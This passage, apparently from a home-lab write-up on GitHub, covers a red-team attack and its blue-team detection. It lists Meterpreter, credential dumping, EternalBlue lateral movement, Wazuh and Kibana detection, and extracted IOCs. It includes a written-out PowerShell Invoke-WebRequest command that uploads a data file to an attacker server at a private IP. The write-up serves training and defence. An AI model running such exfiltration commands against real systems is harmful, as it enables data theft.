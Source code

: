 #### 📤 Data Exfiltration

-   Created Python HTTP server for data collection:\
    > python3 -m http.server 8080

-   Used PowerShell for exfiltration:\
    > Invoke-WebRequest -Uri
    > \[http://192.168.31.163:8080/upload\](http://192.168.31.163:8080/upload)
    > -Method POST -InFile important_data.txt

### Phase 2: Attack Detection & Investigation (Blue Team)

#### 🔍 Detection Mechanisms

-   **Wazuh Alerts**: Triggered on suspicious process execution

-   **Kibana Queries**: Identified malicious PowerShell activity

-   **Security Onion**: Detected network anomalies during lateral
    > movement

-   **TheHive & Cortex**: Enriched IOCs and facilitated investigation

#### 🕰️ Attack Timeline Reconstruction

1.  **Initial Access** (Aug 03, 2025, 11:45-12:00)

    -   Payload execution from Downloads folder

    -   Meterpreter session established

2.  **Privilege Escalation** (Aug 03, 2025, 11:45-12:00)

    -   getsystem command execution

    -   Credential dumping with hashdump

3.  **Lateral Movement** (Aug 03, 2025, 12:15-12:30)

    -   EternalBlue exploitation of Windows 7

    -   Cross-session movement achieved

4.  **Data Exfiltration** (Aug 06, 2025, 13:50-14:10)

    -   PowerShell Invoke-WebRequest to attacker server

    -   Sensitive data successfully exfiltrated

### Phase 3: Threat Intelligence & Mitigation

#### 🔍 IOC Extraction & Sharing

-   Extracted critical IOCs:

    -   Malicious file hash:
        > a78acea453c68a684917b967162a599f9881eba69471c202c071b86e72066037

    -   C2 IP: 192.168.31.163
